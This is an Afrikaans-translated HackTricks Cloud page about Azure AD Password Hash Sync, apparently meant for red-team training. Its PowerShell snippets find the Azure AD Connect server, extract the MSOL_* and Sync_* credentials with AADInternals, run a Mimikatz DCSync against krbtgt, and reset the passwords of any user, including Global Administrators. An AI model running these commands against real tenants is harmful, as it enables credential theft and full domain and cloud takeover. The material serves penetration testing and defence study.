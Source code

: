 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Leer en oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

[Van die dokumentasie:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** is een van die aanmeldmetodes wat gebruik word om hibriede identiteit te bereik. **Azure AD Connect** sinchroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord vanaf 'n on-premises Active Directory-instansie na 'n wolkgebaseerde Azure AD-instansie.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **mees algemene metode** wat deur maatskappye gebruik word om 'n on-prem AD met Azure AD te sinchroniseer.

Alle **gebruikers** en 'n **hash van die wagwoord-hashes** word gesinchroniseer vanaf die on-prem na Azure AD. Egter, **duidelike teks wagwoorde** of die **oorspronklike** **hashes** word nie na Azure AD gestuur nie.\
Boonop word **ingeboude** sekuriteitsgroepe (soos domeinadministrateurs...) **nie gesinchroniseer** na Azure AD nie.

Die **hashes sinchronisasie** vind elke **2 minute** plaas. Egter, standaard, **wagwoordverval** en **rekeningverval** word **nie gesinchroniseer** in Azure AD nie. So, 'n gebruiker wie se **on-prem wagwoord verval het** (nie verander nie) kan voortgaan om **Azure-hulpbronne te gebruik** met die ou wagwoord.

Wanneer 'n on-prem gebruiker 'n Azure-hulpbron wil gebruik, vind die **verifikasie plaas op Azure AD**.

**PHS** is nodig vir funksies soos **Identity Protection** en AAD Domain Services.

## Pivotering

Wanneer PHS gekonfigureer is, word sommige **bevoorregte rekeninge** outomaties **geskep**:

* Die rekening **`MSOL_<installationID>`** word outomaties in on-prem AD geskep. Hierdie rekening kry 'n **Directory Synchronization Accounts** rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replikasie (DCSync) regte in die on-prem AD** het.
* 'n Rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan **wagwoord van ENIGE gebruiker** (gesinchroniseer of slegs wolk) in Azure AD **herstel**.

Wagwoorde van die twee vorige bevoorregte rekeninge word **gestoor in 'n SQL-bediener** op die bediener waar **Azure AD Connect geïnstalleer is.** Administrateurs kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie uit een van die tabelle te onttrek, een is geënkripteer:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **geënkripteerde konfigurasie** is geënkripteer met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`** gebruiker in on-prem AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, deur hierdie te kompromitteer, is dit moontlik om privesc na die AD en na AzureAD.

Jy kan 'n [volledige oorsig van hoe hierdie geloofsbriewe gestoor en gedekripteer word in hierdie praatjie](https://www.youtube.com/watch?v=JEIR5oGCwdg) vind.

### Vind die **Azure AD connect bediener**

As die **bediener waar Azure AD connect geïnstalleer is** by die domein aangesluit is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`** rekening te kompromitteer is dit moontlik om die **wagwoord te herinstel** van enige gebruiker (insluitend Globale Administrateurs)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om **die wagwoorde van slegs wolkgebruikers te verander** (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
Nog 'n opsie sou wees om **bevoorregte toestemmings aan 'n dienshoof** toe te ken, wat die **Sync**-gebruiker **toestemmings** het om te doen, en dan **daardie dienshoof te benader** as 'n manier van privesc.
{% endhint %}

### Naadlose SSO

Dit is moontlik om Naadlose SSO met PHS te gebruik, wat vatbaar is vir ander misbruike. Kyk dit na in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
